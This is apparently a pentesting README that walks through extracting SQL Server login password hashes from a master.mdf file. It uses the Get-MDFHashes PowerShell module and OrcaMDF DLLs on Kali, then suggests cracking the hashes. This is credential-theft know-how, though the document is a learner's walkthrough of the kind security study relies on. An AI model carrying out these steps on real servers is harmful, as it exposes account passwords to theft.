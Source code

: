 # MSSQL-mdf-file-dump

MSSQL store creds in a master.mdf file. If we managed to get that file, we can extract the hashes from mdf file.

# Extract Hashes from mdf file

![OnPaste 20220609-182026](https://user-images.githubusercontent.com/106917304/172851000-e5b1f130-0ead-4633-8c4c-626100bcfddd.png)


### Open Powershell in Kali VM.
![OnPaste 20220609-182203](https://user-images.githubusercontent.com/106917304/172851320-19cffbc0-4b97-4e3f-b2e6-b74bb183d410.png)


Grab   Get-MDFHashes.ps1 / OrcaMDF.RawCore.dll / OrcaMDF.Framework.dll

[Resource](https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes)


### Import the Modules 
```markdown
Add-Type -Path 'OrcaMDF.RawCore.dll' 
Add-Type -Path 'OrcaMDF.Framework.dll' 
import-module .\Get-MDFHashes.ps1 
```
NOTE: If Get-MDFHashes.ps1 shows error on running run twice like i did.

![OnPaste 20220609-182705](https://user-images.githubusercontent.com/106917304/172852863-797391a1-e40e-4992-af8f-8b4dfd265610.png)


### Dump THe Hashes
```markdown
Get-MDFHashes -mdf "/home/kali/dump/master.mdf" 
```
NOTE: You have to provide the full path to master.mdf file.

![OnPaste 20220609-183727](https://user-images.githubusercontent.com/106917304/172854470-622a959a-6b47-44aa-ada4-00b2802c4e4c.png)

These value are the hash.
You will notice that hash don't fit in our screen. To make the hash visible we have to change our resolution.
In Kali.

First Get the default value. 
```markdown
xrandr 
```

```markdown
xrandr -s 3840x2400 
```
Now again dump the Hash. It's inconventient to work like this, so grab the hash and copy to a file. Then change the resolution to default. Now try to crack the hash. 

![OnPaste 20220609-184608](https://user-images.githubusercontent.com/106917304/172856147-995b5d5a-c9d5-4503-879e-5f6df977c42e.png)


![OnPaste 20220609-184834](https://user-images.githubusercontent.com/106917304/172856660-a7b1b41f-2ec2-476c-9ab8-1cc42af55217.png)



